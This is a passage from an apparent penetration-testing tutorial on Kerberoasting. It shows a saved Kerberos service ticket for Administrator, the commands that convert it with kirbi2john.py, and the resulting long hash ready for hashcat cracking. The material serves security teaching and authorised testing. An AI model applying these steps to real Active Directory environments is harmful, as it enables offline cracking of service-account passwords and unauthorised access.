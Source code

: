 ```
MDAwMA==
====================

   * Saved to file     : 1-40a10000-Administrator@https~TSTWLPT1000000-EXAMPLE.COM.kirbi
```

**Crack Kiwi's Service Tickets**

To crack the service ticket a number of tools can be used. In this example we'll use hashcat. First we need to convert
the ticket we retrieved in the `.kirbi` format to a format parsable by hashcat. The script **kirbi2john** is part of
[Tim Medin](https://twitter.com/TimMedin) [Kerberoast](https://github.com/nidem/kerberoast) toolkit is perfect for
this task.

First clone the repo then run the script against the `.kirbi` file.

```
msfuser@ubuntu:~/git$ git clone https://github.com/nidem/kerberoast.git
msfuser@ubuntu:~/git$ cd kerberoast
msfuser@ubuntu:~/git/kerberoast$ python3 kirbi2john.py ~/1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM.kirbi
$krb5tgs$23$*1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM*$2b5cda0496cdd9cfb11a00a9b03a0d31$76975a9115860927140
3a1808746b35d0e99159553e3c81a9cd32a51e968a4b45ce3fcf08e5eac8d4551df10c9f1bd4572cc273d1bd154fc8fd1228d55cd39a90b64ec3117f
e0a1fb496d1be4042ccb2998d998fa3de8f50bcb04d3bf78e34be07d71310a3be829e24cb75c398847f960aefe9669534df26344beb6e7bbe628b7ac
fa957c4a67417546fc441b84aaee78a0e5256cc9dead287327ac7907af71e02b142027c9061515c72ef03c842d0f73754f9dffa434a26057df4c4434
71cd5bf76260469ea6f1c367a64ea02b01a2b9c2b83979911fc58fa8822c70877b72370078e3d7955fc2ade02acd2a803889a8c3a609f80f9beb45c0
981aba6bdbb208fa6ea2cc91814c8c4dd6e9287f4ef3b9e2b7febe07648c78ec25137e82bee0d99290a33fd3701953bd858fac15c6d1652f11cc75a6
e419cab7dec019e599eda3a76652475968bc2845fa6f02477efaecfd63e58fad817f1976adeda14b2c4c1508a84df1813e05368c3e07c9f656d5730d
848b86c59bf576f4c2505375b7d6934abf8a955b1a71d802026383cbd9005bf12f0664ffc25ebee8aef4b574dd93850d59fc16c5f9881e9b4f957c33
74724e4046c0fa4bc5ff16b9a960b4b6a2ede25bb18c617c2dbcfb3fd34a4cc3ee29fb0f6e6f43722ffc50ceddce55b2be1a53361d13c983980d3191
86c7dbd124a3c8f19560e88d0d858b0f5320738931bf2f32c1e893fbbadb92f7574128f6f36a0acab99023f79d857f15f0920a1a76b3a97e6282d4e6
c5ef30206444bc20da1a7d89d1007a97e75ffb9554cfeaf6757919a635dbdfcfd74d2eec8d5f83f109beb6e653a8c0e787ec039c7bb93d07a60e8bb4
b56d026e809a80e020875a3a382b367f28c0e41714bd5ef97da578956cba12ab1fbcd84a5313d2edc5f7c601c3c56860a347ab013f50e3f8e6167935
9db05e4014db38e21a814fe002ba14d17840aa053bbec3a6aadec31db50827168d24107486d373567c2969215c0decf639bc46b9968e43a79bc6f261
2544feb09908118615035f630e37b03cb04d9725d2085a28543575d91c361bf1b6a61837d6c34c8961df33d1b8b45963bf361d33e0ca2fa37b40e62b
6389ebb0ad4097036f4d6aa4598086313ea79d68f75301d5038783567c2fdcf25e2b459acdc867c64613fe84f3faf1fdb79fc6e05322b2175eec3b2e
84e3a8165f0af265d3ccd994712704516f0c78f76dd7c5c98f8fc8b9db1231f19c259bc7f078a86d4bc6cf06b8c4158dc41f48dd51b146d3fc63d2fd
f057e6644f838a944de0679ab3e8c6290d4d8004bd53570f61323eeb7c910c6546880a508172bf4ee2fa1c87748ec0e2e2f79e03e963affb593f1391
a62fdf2f29b792b1c0e7ece2645381a4284b56ddc525c842589eca39efa0466418c9bfb60df479015f4fac86d38575aad1f29674a12d873f8fc12415
b6ea7b2cb15c9d422f0f904a6af518f12c4e0e362093d8d33a47672973f6d70e80669666f37d6674ef8e2999c92fa38b5de8e266716bb182527bde17
36bcb926a6340ae92f8b338be2fe5fa3a757894679beba5b296fe0cdc11100b9a536264cb5e3cb3c6d0426acaa7dd3928895d32973fab2698d17fff4
f9f1ecd02102f5bbd222b039ca3e30fed4003be6b70b2e492c8ea5eee92439681d6af767547609a87d47b68ba7ca62dbe3e4bf74e081915ab15e4103
```